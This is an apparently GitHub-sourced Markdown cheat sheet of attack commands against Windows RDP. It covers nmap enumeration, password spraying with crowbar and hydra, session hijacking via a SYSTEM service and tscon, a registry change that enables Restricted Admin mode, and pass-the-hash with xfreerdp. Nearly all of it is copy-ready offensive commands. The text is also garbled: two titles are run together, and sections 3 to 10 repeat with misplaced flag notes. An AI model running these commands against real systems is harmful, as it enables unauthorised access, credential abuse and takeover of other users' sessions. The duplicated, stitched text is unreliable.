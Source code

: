 # RDP Enumeration Cheatsheet

Enumerating RDP (port 3389) service.

## 1. Enumerate RDP Service (nmap)
Scan for RDP service on the default port.
```bash
nmap -Pn -p3389 target.com
```
- `-Pn`: Skips host discovery.
- `-p3389`: Targets RDP default port (TCP/3389).

## 2. RDP Password Spraying (crowbar)
Test a single password against a list of usernames.
```bash
crowbar -b rdp -s target.com/32 -U users.txt -c 'password123'
```# RDP Command Cheatsheet

## 1. Enumerate RDP Service (nmap)
Scan for RDP service on the default port.
```bash
nmap -Pn -p3389 target.com
```
- `-Pn`: Skips host discovery.
- `-p3389`: Targets RDP default port (TCP/3389).

## 2. RDP Password Spraying (crowbar)
Test a single password against a list of usernames.
```bash
crowbar -b rdp -s target.com/32 -U users.txt -c 'password123'
```
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.

## 3. RDP Password Spraying (hydra)
Perform password spraying against RDP with a username list.
```bash
hydra -L usernames.txt -p 'password123' target.com rdp
```
- `-L usernames.txt`: File with usernames.
- `-p 'password123'`: Password to test.
- `rdp`: Targets RDP protocol.

## 4. RDP Login (rdesktop)
Connect to RDP server with valid credentials.
```bash
rdesktop -u user -p 'password' target.com
```
- `-u user`: Specify username.
- `-p 'password'`: Specify password.
- `target.com`: Target IP or hostname.

## 5. Query User Sessions (Windows)
List active RDP sessions on a Windows system.
```cmd
query user
```
- Displays usernames, session names, IDs, and states.

## 6. Create Service for SYSTEM Privileges (Windows)
Create a Windows service to run a command as SYSTEM.
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
- `sessionhijack`: Service name.
- `binpath=`: Command to execute (e.g., hijack session ID 2).

## 7. Start Service for RDP Session Hijack (Windows)
Start the created service to hijack an RDP session.
```cmd
net start sessionhijack
```
- `sessionhijack`: Name of the service to start.

## 8. Hijack RDP Session (Windows)
Connect to another user’s RDP session with SYSTEM privileges.
```cmd
tscon 2 /dest:rdp-tcp#13
```
- `2`: Target session ID to hijack.
- `/dest:rdp-tcp#13`: Destination session name.

## 9. Enable Restricted Admin Mode (Windows)
Add registry key to allow RDP Pass-the-Hash.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
- `HKLM\...`: Registry path.
- `/t REG_DWORD`: Registry value type.
- `/v DisableRestrictedAdmin`: Key name.
- `/d 0x0`: Value to enable mode.

## 10. RDP Pass-the-Hash (xfreerdp)
Use NTLM hash to connect via RDP.
```bash
xfreerdp /v:target.com /u:user /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
- `/v:target.com`: Target IP or hostname.
- `/u:user`: Username.
- `/pth:300FF5E89EF33F83A8146C10F5AB9BB9`: NTLM hash.
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.

## 3. RDP Password Spraying (hydra)
Perform password spraying against RDP with a username list.
```bash
hydra -L usernames.txt -p 'password123' target.com rdp
```
- `-L usernames.txt`: File with usernames.
- `-p 'password123'`: Password to test.
- `rdp`: Targets RDP protocol.

## 4. RDP Login (rdesktop)
Connect to RDP server with valid credentials.
```bash
rdesktop -u user -p 'password' target.com
```
- `-u user`: Specify username.
- `-p 'password'`: Specify password.
- `target.com`: Target IP or hostname.

## 5. Query User Sessions (Windows)
List active RDP sessions on a Windows system.
```cmd
query user
```
- Displays usernames, session names, IDs, and states.

## 6. Create Service for SYSTEM Privileges (Windows)
Create a Windows service to run a command as SYSTEM.
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
- `sessionhijack`: Service name.
- `binpath=`: Command to execute (e.g., hijack session ID 2).

## 7. Start Service for RDP Session Hijack (Windows)
Start the created service to hijack an RDP session.
```cmd
net start sessionhijack
```
- `sessionhijack`: Name of the service to start.

## 8. Hijack RDP Session (Windows)
Connect to another user’s RDP session with SYSTEM privileges.
```cmd
tscon 2 /dest:rdp-tcp#13
```
- `2`: Target session ID to hijack.
- `/dest:rdp-tcp#13`: Destination session name.

## 9. Enable Restricted Admin Mode (Windows)
Add registry key to allow RDP Pass-the-Hash.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
- `HKLM\...`: Registry path.
- `/t REG_DWORD`: Registry value type.
- `/v DisableRestrictedAdmin`: Key name.
- `/d 0x0`: Value to enable mode.

## 10. RDP Pass-the-Hash (xfreerdp)
Use NTLM hash to connect via RDP.
```bash
xfreerdp /v:target.com /u:user /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
- `/v:target.com`: Target IP or hostname.
- `/u:user`: Username.
- `/pth:300FF5E89EF33F83A8146C10F5AB9BB9`: NTLM hash.